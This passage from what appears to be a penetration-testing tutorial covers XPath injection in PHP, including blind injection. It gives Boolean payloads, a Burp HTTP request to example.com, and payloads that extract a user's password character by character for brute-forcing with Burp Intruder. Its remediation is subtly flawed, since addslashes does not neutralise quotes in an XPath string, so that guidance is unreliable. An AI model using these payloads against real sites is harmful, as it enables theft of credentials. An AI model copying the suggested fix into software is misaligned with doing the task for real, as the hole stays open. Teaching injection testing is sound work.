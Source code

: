 **Example Secure Code (PHP)**:
```php
$query = preg_replace('/[^a-zA-Z0-9]/', '', $query);
$xpath = new DOMXPath($xml);
$query = "//user[name='$query']";
$result = $xpath->query($query);
```
Test: No extra data.

**Remediation**:
- Restrict XPath queries:
  ```php
  $query = "//user[name='" . addslashes($query) . "']";
  ```
- Limit returned data:
  ```php
  $result = $xpath->query($query)[0];
  ```

**Tip**: Save extracted data in a report.

### 4. Test for Blind XPath Injection

**Objective**: Detect XPath injection when no data is returned.

**Steps**:
1. Inject Boolean payloads:
   - Test true condition: `?query=admin' and '1'='1 or ''='`
   - Test false condition: `?query=admin' and '1'='2 or ''='`
   - Use Burp:
     ```http
     GET /search?query=admin' and '1'='1 or ''=' HTTP/1.1
     Host: example.com
     ```
2. Compare responses:
   - Look for differences in content, status codes, or behavior.
3. Extract data incrementally:
   - Test: `' and string-length(//user[1]/password)=8 or ''='`.
   - Test: `' and substring(//user[1]/password,1,1)='a' or ''='`.
4. Automate with Burp Intruder:
   - Use payloads to brute-force characters.

**Example Vulnerable Code (PHP)**:
```php
$xpath = new DOMXPath($xml);
$query = "//user[name='$query']";
$result = $xpath->query($query);
if ($result->length > 0) {
    echo "Found";
} else {
    echo "Not found";
}
```
Test: `?query=admin' and '1'='1 or ''='` vs. `?query=admin' and '1'='2 or ''='`
Result: Different responses.
